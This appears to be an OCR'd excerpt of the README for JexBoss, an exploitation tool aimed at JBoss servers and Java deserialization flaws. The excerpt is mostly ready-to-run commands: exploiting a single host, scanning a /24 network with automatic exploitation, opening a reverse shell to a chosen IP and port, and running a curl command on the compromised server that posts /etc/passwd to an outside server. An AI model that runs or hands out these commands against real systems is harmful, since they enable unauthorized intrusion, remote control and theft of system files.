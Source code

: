 * Example of standalone mode against JBoss:
```
$ python jexboss.py -u http://192.168.0.26:8080
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/standalone_mode1.png)
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/standalone_mode2.png)

* Usage modes:
```
$ python jexboss.py -h
```

* Network scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/network_scan_mode.png)

* Network scan with auto-exploit mode:
```
$ python jexboss.py -mode auto-scan -A -network 192.168.0.0/24 -ports 8080 -results results.txt
```
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/scan_with_auto_exploit_mode.png)

* Results and recommendations:

![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/results_and_recommendations2.png)


Reverse Shell (meterpreter integration)
---------------------------------------
After you exploit a JBoss server, you can use the own jexboss command shell or perform a reverse connection using the following command:
```
   jexremote=YOUR_IP:YOUR_PORT

   Example:
     Shell>jexremote=192.168.0.10:4444
```

* Example:
![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/jexbossreverse2.jpg)

When exploiting java deserialization vulnerabilities (Application Deserialization, Servlet Deserialization), the default options are: make a reverse shell connection or send a commando to execute.


Usage examples
--------------

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to send a custom command to be executed on the exploited server:
```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'
```

